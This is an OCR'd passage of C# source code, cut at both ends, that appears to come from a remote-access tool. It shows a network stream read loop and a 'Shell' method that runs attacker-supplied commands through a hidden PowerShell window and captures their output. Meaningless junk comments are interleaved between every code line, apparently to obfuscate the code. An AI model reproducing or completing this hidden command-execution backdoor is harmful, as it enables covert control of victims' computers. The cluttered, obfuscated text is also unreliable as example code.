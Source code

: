                 }
                // DKOSKAODKSAOPDKAOPSKIDOPASKDAPSODKASOPDKASPODKASPODKAS
                catch (Exception ex)
                // DKLASODKAOPDK0AK290-381938219831920839128390123809123819381
                {
                    // DKSOIAK293K2901391283912839018390128391830921839128390128309
                    if (ex.Message.Contains("Unable to read data from the transport connection: An established connection was aborted by the software in your host machine."))
                    // SODAK23I219382190831892809G9FDJIJDIOJAOIDJAIODJAIOSJAOIDJAIODJA99999999999999999999999999
                    {
                        // SOAK-0000000000000000000000000000000000000000000000000000
                        return "E:00xFFAQQ4141";
                        // S.M.D
                    }
                    // BL
                    Console.WriteLine(ex.Message);
                    // #2022
                }
                // #LOVEYOUBRO
            }
            // ISHOWSPEED
            while (stream.DataAvailable);
            //EXECUREEEEEEEEEEEEEEEEEEEE
            Console.WriteLine(stringBuilder.Replace("\0", " "));
            // FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
            return rply;
            // R.I.P.000000000000000000000000000000000
        }
        // DEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEOOOOOP
        private static string Shell(string Command)
        // aLMOST dONE
        {
            // 239103123821938193821938129038129389218391839021
            try
            // 382918392183985T5JKFJDIKJSAOIDJASOIDJSAOIDJASDASDDDDDDDDDD-S=-321-3=21-312-=3-1=312
            {
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW
                Process process = new Process();
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWWDDDDDDDDD
                process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWWAAAAAAAA
                process.StartInfo.FileName = "powershell.exe";
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWWVVVVVVVVVVVVVVVBBBBBBBBBBB
                process.StartInfo.Arguments = "/C " + Command;
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWWCCCCCCCCCCCCC
                process.StartInfo.UseShellExecute = false;
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWWDDDDDDDDDDDDDDDDDD
                process.StartInfo.CreateNoWindow = true;
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWWEEEEEEEEEEEEEEEEEEEE
                process.StartInfo.RedirectStandardOutput = true;
                // //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW
                process.StartInfo.RedirectStandardInput = true;
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW//D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW
                process.Start();
                // //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW333333333333333333
                string text = "";
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW 111111111111111111
                while (!process.HasExited)
                //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW222222222222222222222
                {
                    //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW4444444444444444444
                    text += process.StandardOutput.ReadToEnd();
                    //D SDAJIWWWWWWWWWWWWWWWWWWWWWWWWWWW555555555555555555555555555555555